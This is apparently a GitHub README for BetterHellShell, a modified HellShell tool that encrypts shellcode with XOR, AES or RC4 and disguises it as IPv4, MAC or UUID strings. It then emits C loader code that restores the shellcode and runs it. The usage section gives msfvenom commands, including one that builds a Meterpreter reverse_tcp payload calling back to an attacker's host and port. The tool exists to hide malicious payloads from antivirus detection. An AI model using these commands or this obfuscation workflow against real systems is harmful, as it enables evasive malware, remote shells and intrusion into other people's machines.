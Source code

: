 # BetterHellShell

## Description

**BetterHellShell** is a payload encryption and obfuscation tool designed for obfuscating and encrypting payloads in raw format.

This tool reads a payload from a file specified by the user, applies the selected encryption method (e.g., XOR, AES, RC4), and then obfuscates the payload using a chosen obfuscation method (MAC address, IPv4 address, UUID). If the payload is not already aligned with the required size, it will be padded to the nearest multiple required for obfuscation.

The program supports:
- Multiple encryption methods (XOR, AES, RC4).
- Several obfuscation techniques (IPv4, IPv6, MAC, UUID).
- Payload padding to ensure the correct size for obfuscation.

The encrypted and obfuscated payload, along with necessary decryption and deobfuscation functions, can then be written to a C file, which can then be compiled and executed or used as a base for more complex programs.

---

## Usage
First you will need to generate your payload:
  - Generate payload to open calc.exe (64-bit):
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f raw -o payload.bin
     ```
  - Generate payload to get a meterpreter reverse_tcp (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f raw -o payload.bin
     ```

Then you can run BetterHellShell as follow:
  ```
  BetterHellShell.exe payload.bin aes none > aes_only.c
  ```
  > This will encrypt the payload using AES. Then, the encrypted payload, key, IV, and the decryption function will be written in the `aes_only.c` file.
  
  ```
  BetterHellShell.exe payload.bin rc4 uuid > rc4_uuid.c
  ```
  > This will encrypt the payload using rc4 and then obfuscate in an array of UUIDs. It will then be written with, its key, and the decryption/deobfuscation functions  in the `rc4_uuid.c` file.
  
  ```
  BetterHellShell.exe payload.bin none ipv4 > ipv4_only.c
  ```
  > The payload won't be encrypted, just obfuscated into an array of IPv4 addresses. It will then be written into the `ipv4_only.c` with deobfuscation function.

[!] When compiling your resulted c code, if using AES encryption, make sure that it contains `aes.h` and `aes.c` in your project. You can use the Execute folder-project for ease of compiling.

## Demo

![Demo](https://github.com/user-attachments/assets/a3fedc33-047e-4e80-9abd-b353bd684c39)

## Credits
 - This project is a modified version of HellShell by @NUL0x4C and @mrd0x
 - It also uses AES implementation from [tiny-aes-c](https://github.com/kokke/tiny-AES-c)
